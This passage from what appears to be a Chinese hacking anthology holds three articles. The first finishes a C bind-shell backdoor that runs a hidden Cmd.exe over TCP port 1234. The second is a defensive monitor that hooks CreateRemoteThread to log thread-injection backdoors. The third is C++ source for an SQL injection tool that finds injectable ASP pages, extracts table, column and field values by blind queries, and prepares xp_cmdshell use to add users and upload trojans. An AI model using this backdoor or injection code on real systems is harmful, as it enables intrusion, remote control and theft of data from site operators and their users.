nRetCode = WriteFile(hWriteFile,
                     curDirBuff,
                     nDirLength + 1,
                     &nDirLength,
                     NULL);
while (true) {
    Sleep(250);
    nByteToWrite = recv(ClientSocket,
                        recv_buff,
                        1024,
                        0);
    nRetCode = WriteFile(hWriteFile,
                         recv_buff,
                         nByteToWrite,
                         &nByteWritten,
                         NULL);
}
return 0;
```

```c
DWORD WINAPI ThreadFuncWrite(LPVOID lpParam)
{
    SECURITY_ATTRIBUTES pipeattr;
    DWORD len;
    int nRetCode;
    unsigned long nCount;
    unsigned long nAvail;
    char send_buff[25000];
    ZeroMemory(send_buff, 25000);

    pipeattr.nLength = sizeof(SECURITY_ATTRIBUTES);
    pipeattr.lpSecurityDescriptor = NULL;
    pipeattr.bInheritHandle = TRUE;

    nRetCode = CreatePipe(&hReadFile,
                          &hWritePipe,
                          &pipeattr,
                          0);
    if (nRetCode == 0) {
        printf("CreatePipe writepipe Error!\n");
        exit(-1);
    }
    varWrite = 1;

    while (true) {
        Sleep(250);
        ReadFile(hReadFile,
                 send_buff,
                 25000,
                 &len,
                 NULL);
        if (len != 0) {
            send(ClientSocket,
                 send_buff,
                 len,
                 0);
        }
    }
    return 0;
}
```

```c
typedef struct _SECURITY_ATTRIBUTES {
    DWORD  nLength;
    LPVOID lpSecurityDescriptor;
    BOOL   bInheritHandle;
} SECURITY_ATTRIBUTES;
```

接下来的线程处理函数实际上是通过使用另一个匿名管道，将要发送的数据先通过 `hReadFile` 管道句柄从一个管道中读出，放入缓冲区 `send_buff`，再通过 `send` 函数将数据送至客户端。

#### 实现与 CMD 通信的必备结构体

有了上面两个线程处理函数，我们就可以在 `Main` 函数中方便地与 Cmd 进行通信了。程序中用到了一些结构体，我们先来熟悉一下。首先是 `struct sockaddr_in`：

```c
struct sockaddr_in {
    short sin_family;
    ...
};
```

```c
// 指定协议家族，必须使用 AF_INET
unsigned short sin_port;      // 指定端口
struct in_addr sin_addr;      // 指定 IP 地址等信息
char sin_zero[8];
// 用零补足，使之与 SOCKADDR 大小一致
```

接下来看一下结构体 **OSVERSIONINFO**，定义如下：

```c
typedef struct _OSVERSIONINFO {
  DWORD dwOSVersionInfoSize;
  DWORD dwMajorVersion;
  DWORD dwMinorVersion;
  DWORD dwBuildNumber;
  DWORD dwPlatformId;
  TCHAR szCSDVersion[128];
} OSVERSIONINFO;
```

在 OSVERSIONINFO 的成员中，我们关心的是 **dwPlatformId**。如果系统是 Windows 3.1，则为 `VER_PLATFORM_WIN32s`；如果是 Windows 95/98，则为 `VER_PLATFORM_WIN32_WINDOWS`；如果是 Windows NT，则为 `VER_PLATFORM_WIN32_NT`。若还需要判断 SP 补丁，可进一步判断 `szCSDVersion[128]`。

> **Socket：** 我们在实际情况下之所以要对它进行判断，是因为在 Windows 95/98 系统中命令行可执行程序名为 `Command.exe`，而到了 Windows 2000 以后变为 `Cmd.exe`，这在程序重定向中会用到。

接下来还有一个重要结构体 **PROCESS_INFORMATION**，我们看一下：

```c
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;    // 指向新创建进程的句柄
  HANDLE hThread;     // 创建新进程线程的句柄
  DWORD  dwProcessId; // 新创建进程标识符
  DWORD  dwThreadId;  // 新建线程标识符
} PROCESS_INFORMATION;
```

还有一个重要结构体就是 **STARTUPINFO**，用于在 `CreateProcess` 创建进程时传递启动信息，黑客程序中也经常会用到。

```c
typedef struct _STARTUPINFO {
  DWORD  cb;
  LPTSTR lpReserved;
  LPTSTR lpDesktop;
  LPTSTR lpTitle;
  ...
} STARTUPINFO;
```

```c
DWORD  dwX;
DWORD  dwY;
DWORD  dwXSize;
DWORD  dwYSize;
DWORD  dwXCountChars;
DWORD  dwYCountChars;
DWORD  dwFillAttribute;
DWORD  dwFlags;
WORD   wShowWindow;   // 控制进程窗口显示
WORD   cbReserved2;
LPBYTE lpReserved2;
HANDLE hStdInput;     // 子进程输入句柄
HANDLE hStdOutput;    // 子进程输出句柄
HANDLE hStdError;     // 子进程错误输出句柄
```

显然，上述结构中我们最关心的是 `wShowWindow`、`hStdInput`、`hStdOutput` 和 `hStdError`。后门程序通常不希望显示 Cmd 窗口，因此 `wShowWindow` 常设为 `SW_HIDE`；输入输出与错误信息通过管道句柄进行重定向传输。

## 实现与 CMD 的通信

通过对上面基本结构体的了解，下面来看程序流程：

```c
void main(void)
{
  WSADATA WSADdata;
  struct sockaddr_in RemoteAddr;
  int nRetCode;
  DWORD dwThreadIdRead, dwThreadIdWrite, dwThreadParam=0;
  OSVERSIONINFO osvi;
  PROCESS_INFORMATION processinfo;
  STARTUPINFO startinfo;

  nRetCode = WSAStartup(MAKEWORD(2,2), &WSADdata);
  if (nRetCode != 0) {
    printf("WSAStartup Error!\n");
    return;
  }

  // 定义服务端通信套接字
  ServerSocket = socket(AF_INET, SOCK_STREAM, ... IPPROTO_TCP);
  if (ServerSocket == INVALID_SOCKET)
  {
      printf("Socket error!\n");
      return;
  }
  // 使用 TCP 协议进行通信之前需要绑定一个端口，并指定要通信的 IP 地址
  RemoteAddr.sin_family = AF_INET;
  RemoteAddr.sin_port = htons(PORT);
  RemoteAddr.sin_addr.s_un.S_addr = INADDR_ANY;

  nRetCode = bind(ServerSocket, (LPSOCKADDR)&RemoteAddr, sizeof(RemoteAddr));
  if (nRetCode == SOCKET_ERROR)
  {
      printf("Bind Error!\n");
      return;
  }

  nRetCode = listen(ServerSocket, 5);
  if (nRetCode == SOCKET_ERROR)
  {
      printf("Listen Error!\n");
      return;
  }

  varRead = 0;
  varWrite = 0;

  ClientSocket = accept(ServerSocket, NULL, NULL);
  if (ClientSocket == INVALID_SOCKET)
  {
      printf("Accept Error!\n");
      return;
  }

  if (CreateThread(NULL, 0, ThreadFuncRead, NULL, 0, &dwThreadIdRead) == NULL)
  {
      printf("Create Thread ThreadFuncRead Error!\n");
      return;
  }

  if (CreateThread(NULL, 0, ThreadFuncWrite, NULL, 0, &dwThreadIdWrite) == NULL)
  {
      printf("Create Thread ThreadFuncWrite Error!\n");
      return;
  }

  do
  {
      Sleep(250);
  } while (varRead || varWrite == 0);

  GetStartupInfo(&startinfo);
  startinfo.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
  startinfo.hStdInput  = hReadPipe;
  startinfo.hStdError  = hWritePipe;
  startinfo.hStdOutput = hWritePipe;
  startinfo.wShowWindow = SW_HIDE;
  ...
}
```

```cpp
// 在使用 osvi 得到操作系统信息时，要注意先初始化这个大小变量
osvi.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
GetVersionEx(&osvi);

// 得到 Cmd.exe 所在系统目录的全路径名
char DirSys[256];
GetSystemDirectory(DirSys, 256);
strcat(DirSys, "\\Cmd.exe");

if (osvi.dwPlatformId == 2)
{
    if (CreateProcess(DirSys, NULL, NULL, NULL, TRUE, 0,
        NULL, NULL, &startinfo, &processinfo) == 0)
    {
        printf("CreateProcess Error!\n");
        return;
    }
}
else
{
    CreateProcess(NULL,
        "command.com",
        0,
        0,
        TRUE,
        0,
        0,
        0,
        &startinfo,
        &processinfo);
}

// 同样是使用无限循环接收客户端的通信请求，从而进行数据交互
while (TRUE)
{
    ClientSocket = accept(ServerSocket, NULL, NULL);
    if (ClientSocket == INVALID_SOCKET)
    {
        printf("Accept Error!\n");
        return;
    }
    Sleep(250);
}
```

好了，通过以上的步骤这个 Shell 就写成了。这个程序开启了机器的 1234 端口，这里没有给出客户端代码的编写，读者可以在开启服务端后，通过使用 Telnet `<IP> 1234` 来得到服务端的 Shell。这个程序中没有指定通信的密钥，这样会导致后门程序不能被专用。不过，如果自己写一个客户端程序来跟这个服务端进行一个通信的交互后，用户就可以随心所欲地指定密码了。

相对来说，这个程序没有采用太多复杂的编程方法，主要也是考虑到新手朋友的接受程度，有兴趣的读者可以自己查阅一下相关的资料，逐步提升自己的编程能力。

[本文涉及的代码（程序），请见随书光盘]

## 线程实地

### 线性插入后门防范


文/图 dahubaobao [E.S.T]

#### 前言

2004 年，我曾经写过一篇文章《握着你的手清除 DLL 后门》，文中叙述了基本的 DLL 后门清除方法，但都是被动防御，是否有主动防御的方法呢？经过思考，我觉得可以对远程线程进行监视，以查询蛛丝马迹。虽然监视远程线程并不是“完全”的主动防御，但通过监视远程线程并记录详细的日志，包括插入进程、调用进程和新创建线程的详细信息，可以帮助管理员分析系统安全性，及时发现线程插入后门。本文监视程序在 Windows 2000 Server SP4 下测试成功。

#### 原理概述

写过线程插入后门的朋友都知道，线程插入通过 CreateRemoteThread 函数完成，我们可以通过 HOOK 了 CreateRemoteThread 函数实现远程线程的监视。CreateRemoteThread 函数最终调用的 Native API 是 ZwCreateThread 函数，但由于 CreateThread 也是调用的 CreateRemoteThread 函数，所以必须使用进程 ID 加以区分。

确定了 HOOK 函数，下一步则要解决如何获取进程、线程信息。CreateRemoteThread 函数中只有一个进程句柄（要插入进程的句柄）和一个插入后返回的线程句柄，我们起码要获取 3 个信息：进程名、PID 和线程 ID。翻遍 MSDN 2003，没有可以通过句柄获取 Name 和 ID 的函数，好在天无绝人之路，Native API 中有两个未公开的函数可以获取比较详细的信息。

```c
ZwQueryInformationProcess  // 获取详细的进程信息
ZwQueryInformationThread   // 获取详细的线程信息
```

只要给这两个函数传递进/线程句柄，就能获取详细的信息。调用它们需要的权限是 PROCESS_QUERY_INFORMATION 和 THREAD_QUERY_INFORMATION。这对于线程插入是足够的，因为调用 CreateRemoteThread 函数需要 5 个权限。

- PROCESS_CREATE_THREAD      // 创建线程
- PROCESS_QUERY_INFORMATION  // 获取进程信息
- PROCESS_VM_OPERATION       // 允许改变页面属性
- PROCESS_VM_WRITE           // 允许写入数据
- PROCESS_VM_READ            // 允许读取数据

并且经过我的测试，CreateRemoteThread 函数返回的线程句柄具备 THREAD_QUERY_INFORMATION 权限，可以使用 ZwQueryInformationThread 查询详细信息。需要的信息都有了，可以着手编写代码了。

#### 代码分析

ZwQueryInformationProcess 和 ZwQueryInformationThread 支持多种查询类型，我们需要查询的是 ProcessBasicInformation=0 和 ThreadBasicInformation=0，它们返回如下两个结构。

```c
typedef struct proc_basic_info {
    NTSTATUS ExitStatus;                 // 退出状态
    ULONG PebBaseAddress;                // PEB 地址
    ULONG AffinityMask;                  // 访问权限
    ULONG BasePriority;                  // 权限类
    ULONG UniqueProcessId;               // 进程 ID
    ULONG InheritedFromUniqueProcessId;  // 父进程 ID
} PROCESS_BASIC_INFORMATION, *LPPROCESS_BASIC_INFORMATION;

typedef struct thread_basic_info {
    NTSTATUS ExitStatus;                 // 退出状态
    ULONG TebBaseAddress;                // TEB 地址
    CLIENT_ID ClientId;                  // 进&线程 ID
    ULONG AffinityMask;                  // 访问权限
    ULONG BasePriority;                  // 权限类
    ULONG Priority;                      // 权限类
} THREAD_BASIC_INFORMATION, *LPTHREAD_BASIC_INFORMATION;
```

不错吧！PEB 和 TEB 的地址都有了，想获取什么信息都没问题了。不过本程序只提取了进程名、ID 和线程 ID，你需要什么信息可以随时扩展。我编写了两个函数，用于获取这些信息。首先是 GetProcessNameAndId。

```c
BOOL GetProcessNameAndId(HANDLE hProcess, TCHAR *ProcessName, DWORD *ProcessId)
```

```cpp
// 加载 NTDLL.DLL
if ((hModule = LoadLibrary("ntdll.dll")) == NULL)
{
    // 错误处理
}

// 取函数地址
ZwQueryInformationProcess =
(ZwQueryInformationProcess_id)(GetProcAddress
    (hModule, "ZwQueryInformationProcess"));

// 获取进程信息
ntStatus = ZwQueryInformationProcess(hProcess,
    ProcessBasicInformation, &ProcInfo,
    sizeof(ProcInfo), NULL);

if ((hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE,
    ProcInfo.UniqueProcessId)) == NULL)
{
    // 错误处理
}

GetModuleBaseName(hProc, NULL, ProcessName,
    MAX_PATH - 1);   // 取进程名
*ProcessId = ProcInfo.UniqueProcessId;  // 进程 ID

return TRUE;
```

```cpp
fp = fopen(FileName, "a+");           // 打开文件
hCurrProc = OpenProcess(PROCESS_ALL_ACCESS,
    FALSE, CurrPid);

// 获取调用进程句柄
GetModuleFileNameEx(hCurrProc, NULL, CurrName,
    MAX_PATH - 1);

// 输出系统时间
fprintf(fp, "\n\r%d-%d-%d-%d-%d-%d-%d\n", ...);

fprintf(fp, "Call Process Name:\t%s\n", CurrName);
fprintf(fp, "Call Process Id:\t%ld\n", CurrPid);
fprintf(fp, "Inject Process Name:\t%s\n", ProcesName);
fprintf(fp, "Inject Process Id:\t%ld\n", ProcesId);
fprintf(fp, "Inject New Thread Id:\t%ld\n\n", ThreadId);

return TRUE;
```

进程名和 ID 已经得到，注意进程名不是全路径。如果要取全路径，则使用 GetModuleFileNameEx 函数，封装在 PSAPI 中。获取线程 ID 的函数由 GetThreadId 实现。

记录的时间格式为年—月—日—时—分—秒—毫秒。万事俱备，现在只需用 HOOK 函数将它们“综合”起来了！

```cpp
BOOL GetThreadId(HANDLE hThread, DWORD *ThreadId)
{
    // 省略函数地址代码段
    // 获取线程信息
    ntStatus = ZwQueryInformationThread(hThread,
        ThreadBasicInformation, &ThreadInfo,
        sizeof(ThreadInfo), NULL);

    *ThreadId = ThreadInfo.ClientId.UniqueThread; // 线程 ID
    return TRUE;
}
```

```cpp
HANDLE WINAPI HookCreateRemoteThread(HANDLE hProcess, ...)
{
    // 请求原函数，遵循 __stdcall 调用约定，参数从右向左入栈
    __asm {
        push hProcess
        mov  eax, NewCreateRemoteThread  // 原函数地址
        call eax                         // 请求
        mov  ThreadHandle, eax           // 取返回值
    }

    if (!(GetProcessNameAndId(hProcess, ProcName, &ProcId))) {
        // 错误处理
    }
    if (!(GetThreadId(ThreadHandle, &ThreadId))) {
        // 错误处理
    }
    if (!(UpdateLogData(ProcName, ProcId, ThreadId,
        GetCurrentProcessId()))) {
        // 错误处理
    }

    return ThreadHandle;
}
```

需要的基本信息已经得到了，可以记录日志了。为了加以区别，每一个线程插入，记录一个单独的日志，日志文件名以被插入进程名为准，日志中除了上边的信息，还要有系统的当前时间，这些通过 UpdateLogData 函数完成。

```cpp
BOOL UpdateLogData(TCHAR *ProcessName, DWORD ProcessId,
    DWORD ThreadId, DWORD CurrPid)
{
    // 以进程名作为日志文件名，存放在 C 盘下
    strcpy(FileName, "C:\\");
    strncat(FileName, ProcessName, strlen(ProcessName) - 3);
    // 去掉进程 exe 扩展名
    strncat(FileName, ".log", 3);  // 生成 log 扩展名
    GetSystemTime(&SystemTime);    // 取系统时间
    ...
}
```

很简单吧？轻松完成了远程线程的监视。下面我们使用这个程序演练一下，看看效果如何。

#### 实战演练

这里我选择两个线程插入后门：Beast 2.07（禽兽 2.07）和 Devil 6（魔鬼 6 号）。两款工具都很有名，使用的人很多，先来看 Devil 6。

Devil 6 中有详细的中文帮助，使用方法我就不多说了。我们按照图 1 所示配置 Devil 6，然后运行 Devil6.exe 就可以完成后门的安装。Devil6.exe 会将线程插入到 Csrss.exe，这是 Win32 子系统的进程，不能终止。


图 1

运行后就可以查看效果了。我设置了一部分调试信息输出到 DbgView，图 2 是运行 Devil6.exe 后 DbgView 的输出。


图 2

不难看出，[1056] 是 Devil6.exe 进程的 ID，而插入线程的进程 ID 是 196，新线程的 ID 是 840，还有 PEB/TEB 地址等其他信息。再到 C 盘下看看日志文件，如图 3 所示。


图 3

清清楚楚地记录了 Devil6.exe 进程的全路径和 PID、插入进程名和 ID 以及系统时间，并且在任务管理器也证实了 196 是 Csrss.exe，我们的监视程序生效了！

Beast 2.07 是现在一款比较火的木马，功能 N 多，使用可以参考它的“帮助”。我们按照图 4 所示配置 Beast 2.07，使其插入 Services.exe 进程中，其他随便设置，最后点击“Save Server”生成服务端 Server.exe（我将其改名为 Beast.exe），运行后完成后门的安装。还是使用 DbgView 查看效果，如图 5 所示。


图 4


图 5

[948] 是 Beast.exe 的进程 ID，插入的进程 ID 是 244，新线程 ID 是 864。查看日志文件，如图 6 所示，结合任务管理器，不用我说了吧？！


图 6

分辨后门的关键在于“Call Process Name”，因为线程插入必须有注射器，它对调用进程是很重要的。如果你分析 Explorer.exe，你会发现它创建了很多远程线程，但调用进程却是本身（如图 7 所示），这是因为 Explorer.exe 是一个外壳程序。总之，通过分析“Call Process Name”，是可以发现线程插入后门的！


图 7

#### 后记

本文的程序很简陋，只到了基本的监视，利用 PID 可以分辨是远程线程还是本地线程。有兴趣的朋友可以写个界面，加个警报功能，到时别忘了给我一个！

## SQL注入步步高

## 打造自己的扫描年终大综合工具

文/图 曹军/dangguai27


我开始接触 SQL 注入时，便狂看众高手写的关于注入方面的资料——这些资料太多了，有原理性的，有入侵实例，当然也有方法总结。看了这些东西，感觉自己很快入门了，但怎样能将这些杂碎的知识点有效地吸收呢？我选择了将它们集成到工具的编写中去。我编写的工具 SQL Injector 1.0 功能虽然不及小竹的 NBSI 和臭要饭的“SQL 注入工具超级组合”那样强大，但至少代表了我对知识点进行整合的思路，不足之处以后也会逐步改进的。

SQL Injector 1.0 针对的目标是采用 ASP + SQL Server 编写的站点，而不包括对 Access 后台数据库内容的破解。注入点扫描和分析分别如图 1 和图 2 所示。

对于 ASP + SQL Server 编写的站点，SQL Injector 1.0 的功能分为两部分：基本功能部分和特殊功能部分。其中，基本功能部分是根据用户提交的 URL，对站点中潜在的注入点进行扫描，对可能是注入点的 URL 进一步分析，获取站点后台相应数据库的各表、字段和记录等信息；特殊功能部分是通过扩展存储过程 xp_cmdshell，提供添加系统用户、上传文件、获取 Web 路径等功能接口。下面是实现的思路以及部分代码，以及测试方法及测试站点源码。以下所有代码都是在 Windows 2000 + SP4 环境下编译通过。


#### 基本功能部分

### 1. 潜在注入点的检索

根据用户输入的 URL 进行注入点的检索，比较有效的方法就是先获取该 URL 的页面信息，然后对该页面信息中的各个带参数的 ASP 超链接进行分析，进而找出潜在的注入点，并可起到发散检索的效果。

请求某 URL 页面信息：

```cpp
typedef struct
{
    CString htmlpage;
    int szServer;
} HTMLInfo;

HTMLInfo *Requestpage(CString url)
{
    Chttpsock httpsocket;
    CString strServer, strObject;
    ...
}
```

```cpp
unsigned short nPort; // www 服务端口
DWORD dwServiceType;  // 服务类型
long nLength;
const char *pRequestHeader;
int nrecvsize = 0;
HTMLInfo *pHtmlinfo;
pHtmlinfo = new HTMLInfo[sizeof(HTMLInfo)];
int num = AfxParseURL(url, dwServiceType, strServer, strObject, nPort); // 解析 url
if(num == 0)
{
    pHtmlinfo->szServer = 11;
    // 定义状态值 11 来表示无法解析 URL 地址错误
    pHtmlinfo->htmlpage = "无法解析URL地址!";
    return pHtmlinfo;
}
pRequestHeader = httpsocket.FormatRequestHeader(
    (LPTSTR)(LPCTSTR)strServer,
    (LPTSTR)(LPCTSTR)strObject,
    nLength
); // 格式化 http 请求头
httpsocket.Socket();
if(httpsocket.Connect((LPTSTR)(LPCTSTR)strServer, nPort) == FALSE) // 连接 url
{
    pHtmlinfo->szServer = 10;
    // 定义状态值 10 来表示无法连接的错误
    pHtmlinfo->htmlpage = "无法连接";
    return pHtmlinfo;
}
httpsocket.SendRequest(); // 发送请求头
httpsocket.SetTimeout(10000, 0); // 设置 10 秒超时
pHtmlinfo->szServer = httpsocket.GetServerState(); // 获取状态码
char pData[1024];
int nCompletesize = 0;
char szValue[30];
httpsocket.GetField("Content-Length", szValue, 30); // 获取返回信息长度
int nFilesize = atoi(szValue);
while(nCompletesize < nFilesize)
{
    nrecvsize = httpsocket.Receive(pData, 1024); // 接收返回的页面信息
    for(int i = 0; i < nrecvsize; i++)
        pHtmlinfo->htmlpage += pData[i];
    nCompletesize += nrecvsize;
}
httpsocket.CloseSocket();
return pHtmlinfo;
// 获取完页面信息，并返回
}
```

```cpp
// pageinfo 就是上面获取的页面信息
CString user_url;
user_url = Handleurl(m_url);
// 取出 url 对应页面的名称
...
while(nPosi > 0)
{
    nLen = page.GetLength();
    nPosi = page.Find("<a href", 0);
    page = page.Right(nLen - nPosi);
    nLen = page.GetLength();
    linkaddr = Getlinker(page);

    if(linkaddr != "next")
    {
        Injectaddr[i] = linkaddr;

        // 判断所得的链接地址是否是完全的
        tail = user_url[nlength - 1];
        if(linkaddr.Find("http://", 0) < 0) // 不完全
        {
            if(tail == '/')
                linkaddr = user_url + "/" + linkaddr;
            else
                linkaddr = user_url + linkaddr; // 补全
        }

        m_getaddr.InsertString(i + 1, linkaddr);
        Alinkaddr[i] = linkaddr;
        i++;
    }
    nxtposi = page.Find('>');
    page = page.Right(nLen - nxtposi);
}
nThreadNum = i; // 创建线程数
m_getaddr.InsertString(i + 1, "站点扫描完成! ");

m_progressCtrl.SetRange(0, nThreadNum);
pMainWnd = (CSqlinjectorDlg *)AfxGetMainWnd();
InitializeCriticalSection(&critical_sec);

// 针对当前每个链接地址开启一个线程来检测是否可以注入
for(i = 0; i < nThreadNum; i++)
{
    hGetRaddr[i] = CreateThread(
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)GetResultAddr,
        (LPVOID)i,
        NULL,
        NULL
    );
}
```

接下来，在获取的页面信息中找出所有带参数的 ASP 超链接。

线程函数 GetResultAddr 负责初步判断某个链接是否具有注入点，方法是在后面加字符“'”。

```cpp
CString page;
page = pageinfo->htmlpage;
```

```cpp
DWORD WINAPI GetResultAddr(LPVOID pParam)
{
    int nPos;
    ...
}
```

```cpp
nPos = (int)pParam;
HTMLInfo *pageinfo;
CString page;
pageinfo = Requestpage(Alinkaddr[nPos]);
page = pageinfo->htmlpage;
int nState;
nState = pageinfo->szServer;
if(nState != 200) {
    EnterCriticalSection(&critical_sec);
    pMainWnd->m_resultaddr.AddString(Alinkaddr[nPos] + "(" + page + ")");
    pMainWnd->m_progressCtrl.OffsetPos(1);
    LeaveCriticalSection(&critical_sec);
    return 0;
}

CString injecturl;
injecturl = Alinkaddr[nPos] + "'";
if(!compare(page, injecturl)) {
    EnterCriticalSection(&critical_sec);
    pMainWnd->m_resultaddr.AddString(Alinkaddr[nPos] + "(可能存在注入漏洞)");
    pMainWnd->m_progressCtrl.OffsetPos(1);
    LeaveCriticalSection(&critical_sec);
} else {
    EnterCriticalSection(&critical_sec);
    pMainWnd->m_resultaddr.AddString(Alinkaddr[nPos] + "(不存在注入漏洞)");
    pMainWnd->m_progressCtrl.OffsetPos(1);
    LeaveCriticalSection(&critical_sec);
}
return 0;
```

函数 `compare` 的作用是比较加上特征字符“'”后返回页面信息的变化。如果前后页面没有变化，则表示不存在注入点，否则认为可能存在，待下一步判断。

```cpp
BOOL compare(CString spage, CString url_mod)
{
    CString str_mod;
    HTMLInfo *phinfo;
    phinfo = Requestpage(url_mod);
    str_mod = phinfo->htmlpage;
    if(spage == str_mod)
        return TRUE;
    return FALSE;
}
```

按照上面的过程，可能扫出来 URL 内的多个注入点。

我强调“获取页面信息 -> 找出超链接 -> 注入点判断”的扫描过程。首次扫描的结果只是说明了某个 URL 可能存在注入点。接下来，要通过该 URL 进一步分析，分析的内容包括数据库类型、数据库的连接权限、表和字段的内容等。

### 2. 注入点的进一步分析

- 1) 判断数据库类型

首先根据某个可能是注入点的 URL 获取其页面信息：

```cpp
pinfo = Requestpage(m_urladdr);
// m_urladdr 为待分析的 url
```

然后在 `m_urladdr` 后面加上 `and 1=2`，然后再次获取其页面信息。比较两次返回信息是否一样，如果不一样的话，进行下一步分析。

```cpp
CString sourcepage = pinfo->htmlpage;
url_sql = m_urladdr + "%20and%201=2";
if(!compare(sourcepage, url_sql)) {
    // 进一步分析
}
```

通过添加 `and (select count(*) from sysobjects)>0` 判断数据库类型，如果是 SQL Server 则正常返回：

```cpp
url_sql = m_urladdr + "%20and%20(select%20count(*)%20from%20sysobjects)>0";
sqlinfo = Requestpage(url_sql);
nSvrState = sqlinfo->szServer;
if(nSvrState == 200) {
    // nSvrState 为 200 则是 SQL Server
}
```

- 2) 判断数据库连接权限和数据库名

通过添加 `and user>0` 判断数据库连接权限：

```cpp
url_sql = m_urladdr + "%20and%20user>0";
sqlinfo = Requestpage(url_sql);
pageinfo = sqlinfo->htmlpage; // 页面信息
nSvrState = sqlinfo->szServer;
if(nSvrState > 400 && nSvrState <= 505) {
    // 尝试获取数据库连接权限
}
```

通过 `and db_name()>0` 获取数据库名：

```cpp
url_sql = m_urladdr + "%20and%20db_name()>0";
m_log += "尝试获取数据库名\r\n";
```

```cpp
sqlinfo = Requestpage(url_sql);
CString dbpage = sqlinfo->htmlpage;
nSvrState = sqlinfo->szServer;
cs = itoa(nSvrState, c, 10);
if(nSvrState >= 400 && nSvrState <= 505)
{
    m_ok = "尝试获得数据库名(HTTP Error with wrong code:" + cs + ")";
    m_dbname = Getsqlinfo(dbpage);
    m_log += "成功取得数据库名\r\n";
}
```

```cpp
CString url_sql; // 进行注入的地址
HTMLInfo *sqlinfo;
CString transstr;
transstr = "%20and%20(Select%20Top%201%20col_name(object_id('" + select_tb + "'),1)%20from%20sysobjects)>0";
sqlinfo = Requestpage(url_sql);
CString dbpage = sqlinfo->htmlpage;
int nSvrState = sqlinfo->szServer;
char c[3];
CString cs = itoa(nSvrState, c, 10);
CString nextstr;
CString fieldname;
if(nSvrState >= 400 && nSvrState <= 505)
{
    m_ok = "尝试获得表" + select_tb + "的各字段名(HTTP Error with wrong code:" + cs + ")";
    int col = 1;
    int i = 0;
    while(nSvrState >= 400 && nSvrState <= 505)
    {
        fieldname = Getsqlinfo(dbpage);
        m_fdlist.AddString(fieldname);
        col++;
        nextstr = itoa(col, c, 10);
        url_sql = m_urladdr + transstr + select_tb + "')," + nextstr + ")%20from%20sysobjects)>0";
        sqlinfo = Requestpage(url_sql);
        dbpage = sqlinfo->htmlpage;
        nSvrState = sqlinfo->szServer;
        fdarray[i] = fieldname;
        i++;
    }
    m_log += "成功取得表" + select_tb + "中列名!\r\n";
}
```

##### 3. 获取数据库表名

获取 SQL Server 数据库表名的方法是添加 `and (Select Top 1 name from sysobjects where xtype='U' and status>0 and name<>已获取的表名)>0`，依次读出各表名：

```cpp
CString gettablestr;
gettablestr = "%20and%20(Select%20Top%201%20name%20from%20sysobjects%20where%20xtype='U'%20and%20status>0";
url_sql = m_urladdr + gettablestr + ")>0";
sqlinfo = Requestpage(url_sql);
dbpage = sqlinfo->htmlpage;
nSvrState = sqlinfo->szServer;
cs = itoa(nSvrState, c, 10);
CString nextstr;
CString tablename;
if(nSvrState >= 400 && nSvrState <= 505)
{
    m_ok = "尝试获得数据库中用户所建的表名(HTTP Error with wrong code:" + cs + ")";
    int i = 0;
    while(nSvrState >= 400 && nSvrState <= 505)
    {
        tablename = Getsqlinfo(dbpage);
        m_tblist.AddString(tablename);
        nextstr += "%20and%20name<> '" + tablename + "'";
        url_sql = m_urladdr + gettablestr + nextstr + ")>0";
        sqlinfo = Requestpage(url_sql);
        dbpage = sqlinfo->htmlpage;
        nSvrState = sqlinfo->szServer;
        tbarray[i] = tablename;
        i++;
    }
    m_log += "成功取得数据库中用户建立表名\r\n";
}
```

接下来获取某字段对应的值。

##### 4. 获取数据库字段名和字段值

对于指定的一个表，要获取其字段名的方法是添加 `and (Select Top 1 col_name(object_id(表名),1) from sysobjects)>0`。

```cpp
void CInjectionDlg::Onchoosetablename()
{
    int nIndex = m_tblist.GetCurSel();
    select_tb = tbarray[nIndex];
}
```

```cpp
char Getfield(CString table, CString field, CString url, int index, int l, int h)
{
    int nchar = 0;
    int low = l;
    int hig = h;
    int mid;
    int tmp = h - 1; // 避免死循环，设置最大查找次数
    char cc[3];
    CString c_index, c_mid;
    CString testurl;
    CString sourcepage;
    HTMLInfo *p;
    p = Requestpage(url);
    sourcepage = p->htmlpage;
    while((low <= hig) && (tmp != 0))
    {
        mid = (low + hig) / 2;
        c_index = itoa(index, cc, 10);
        c_mid = itoa(mid, cc, 10);
        testurl = url + "%20and%20(select%20top%201%20ascii...";
    }
}
```

```cpp
...
if(compare(sourcepage,testurl))
    high = mid - 1; // 缩小搜索范围
else {
    // 判断字段值是否大于中点值
    testurl = url + "...select top 1 ascii(substring(cast(" + field + " as char)," + c_index + ",1)) from " + table + "...";
    if(compare(sourcepage,testurl))
        low = mid + 1;
    else {
        // 判断字段值是否等于中点值
        testurl = url + "...select top 1 ascii(substring(cast(" + field + " as char)," + c_index + ",1)) from " + table + "...";
        if(compare(sourcepage,testurl)) {
            nchar = mid; // 查找成功
            break;
        }
    }
}
...
return (char)nchar; // 返回查找到的结果
```

```cpp
int nSvrState = p->szServer;
if(nSvrState>=400 && nSvrState<=505)
    AfxMessageBox("无法执行sql存储过程！");
else {
    UpdateData();
    m_Webpath = "该网站的WEB路径为:";
    url_sql = m_urladdr + "...select top 1 xiaoxue from xiaolu...";
    p = Requestpage(url_sql);
    CString dbpage = p->htmlpage;
    int nSvrState = p->szServer;
    if(nSvrState>=400 && nSvrState<=505) {
        m_Webpath += Getsqlinfo(dbpage);
        // c:\inetpub\wwwroot
    }
    url_sql = m_urladdr + ";drop table xiaolu;--";
    Requestpage(url_sql);
    UpdateData(false);
}
```

#### 特定功能部分

获取 Web 的绝对路径对将来上传木马程序是关键的。获取 Web 的绝对路径的方法有两种，一种是从注册表中读取，如果此方法不成功，则采用另一种方法，将服务器上的目录结构依次下载下来进行分析，下面是示例代码。

```cpp
void CInjectionDlg::OnGetpath()
{
    CString url_sql;
    url_sql = m_urladdr + "; create table [dbo].[xiaolu]([xiaoxue][char](255))";
    HTMLInfo *p;
    p = Requestpage(url_sql);
    int nSvrState = p->szServer;
    if(nSvrState>=400 && nSvrState<=505)
        AfxMessageBox("无法新建表！");
    else {
        url_sql = m_urladdr + "; DECLARE @result varchar(255) ... xp_regread ...";
        p = Requestpage(url_sql);
        ...
    }
}
```

##### 建立系统用户

